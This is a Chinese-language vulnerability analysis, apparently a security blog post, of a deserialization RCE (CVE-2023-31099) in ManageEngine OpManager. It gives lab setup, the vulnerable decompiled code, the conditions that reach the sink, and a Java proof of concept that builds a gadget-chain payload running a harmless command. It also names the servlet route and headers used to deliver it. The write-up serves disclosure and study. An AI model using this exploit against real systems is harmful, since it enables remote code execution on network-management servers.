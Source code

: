 
Zoho ManageEngine Opmanager 反序列化 RCE（CVE-2023-31099）

- - -

# Zoho ManageEngine Opmanager 反序列化 RCE（CVE-2023-31099）

整理今年的笔记看到这个洞，搜了一下网上好像没公开细节就发出来水一篇。

## 环境搭建

下载地址： [https://archives3.manageengine.com/opmanager/126323/](https://archives3.manageengine.com/opmanager/126323/)  
下载 central 和 probe，安装 central 之后复制 key，再安装 probe 并指定 central 地址

调式：修改 wrapper.conf  
wrapper.java.additional.17=-Xdebug  
wrapper.java.additional.18=-Xrunjdwp:transport=dt\_socket,server=y,suspend=n,address=7007

## 漏洞分析

对比 diff 找到关键点  
[![](assets/1704273669-410f4f5ddce2157b3f08ec061198e90c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229165205-8aead9b6-a627-1.png)

OpManagerDistribution.jar!\\com\\me\\opmanager\\extranet\\remote\\communication\\fw\\DataObject#getObjectData中反序列化操作替换成ITOMObjectInputStream，通过设置白名单的方式进行修复。

```bash
public Object getObjectData() {
        if (!this.isDataEncrypted && this.object != null) {
            return this.object;
        } else {
            ByteArrayInputStream bais = null;
            ObjectInputStream ois = null;
            if (this.data != null) {
                try {
                    byte[] decompressedData = null;
                    byte[] decompressedData;
                    if (this.isDataEncrypted) {
                        decompressedData = EEFrameworkUtil.decryptDataObject(this.data);
                        decompressedData = NmsUtil.decompress(decompressedData);
                    } else {
                        decompressedData = NmsUtil.decompress(this.data);
                    }
                    bais = new ByteArrayInputStream(decompressedData);
                    ois = new ObjectInputStream(bais);
                    this.object = ois.readObject();
                } catch (InvalidClassException var14) {
                    this.object = this.getUncheckedUIDData(this.data);
                } catch (Exception var15) {
                    var15.printStackTrace();
                } finally {
                    try {
                        if (ois != null) {
                            ois.close();
                        }
                        if (bais != null) {
                            bais.close();
                        }
                    } catch (Exception var13) {
                        var13.printStackTrace();
                    }
                }
            }
            return this.object;
        }
    }
```

sink 点在该类的 data 字段，如果该字段可控就能实现 RCE。  
通过调用该类的 setter 方法设置 this.data 字段，然后再调用 getObjectData 就能触发 RCE，但是并未找到。

后面熟悉了下功能后，该类应该是用于 probe 向 central 传输消息的，所以应该是传输消息过程反序列化 DataObject 类之后再调用 getObjectData 方法，最后触发 RCE，根据这个思路找到了可直接发送发序列化数据的 source 点 com.me.opmanager.extranet.remote.communication.fw.fe.RegionalListener，相关代码如下

[![](assets/1704273669-52c904acde6ae45fc0a7ba83a6605ca3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229165331-bdf8ebea-a627-1.png)

发现刚好设置了 com.me.opmanager.extranet.remote.communication.fw.DataObject 的白名单，继续跟进 SPPRegionalCommBE 的 transferDataToNOC 方法：

[![](assets/1704273669-db24b1e1ce154155605458adacbb2a5d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229165439-e6a89ba8-a627-1.png)

最终某个分支会调用 dataObject.getObjectData() 方法触发反序列化，需要满足以下条件：

1.  NotificationType 值为 24 并且 DataPriority 值为 0
2.  userProps 字段种需要存放一个 key 为 regReqID 的数据

这些值都来自 dataObject 类的字段，可控。

poc 如下

```bash
public class cve_2023_31099 {
    public static void main(String[] args) throws Exception {
        DataObject obj = new DataObject();
        int notificationType = 24;
        setField(obj,"notificationType",notificationType);
        int dataPriority = 0;
        setField(obj,"dataPriority",dataPriority);
        Properties userProps = new Properties();
        userProps.put("regReqID","qwe");
        setField(obj, "userProps",userProps);
        Class<? extends ObjectPayload> payloadClass = ObjectPayload.Utils.getPayloadClass("CommonsBeanutilsNOCC");
        ObjectPayload payload = (ObjectPayload)payloadClass.newInstance();
        Object object = payload.getObject("cmd /c echo 1 > c:\\1.txt");
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(object);
        oos.flush();
        byte[] bytes = baos.toByteArray();
        byte[] datas =  NmsUtil.compress(bytes);
        setField(obj, "data", datas);
        obj.getObjectData();
        FileOutputStream fos = new FileOutputStream("1.ser");
        ObjectOutputStream foos = new ObjectOutputStream(fos);
        foos.writeObject(obj);
    }
}
```

根据 web.xml 定位到路由为/servlet/com.me.opmanager.extranet.remote.communication.fw.fe.RegionalListener，这里无需 opmanager-central 的 Cookie，但是需要提供三个 Header 头

1.  authkey: 安装 probe 时用的 key
2.  regionID: probe 名称
3.  method: 请求方法，这里是 POST

## 漏洞复现

[![](assets/1704273669-2fc977eef4de775513ee8b35a3ee6600.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229165613-1e6fac48-a628-1.png)
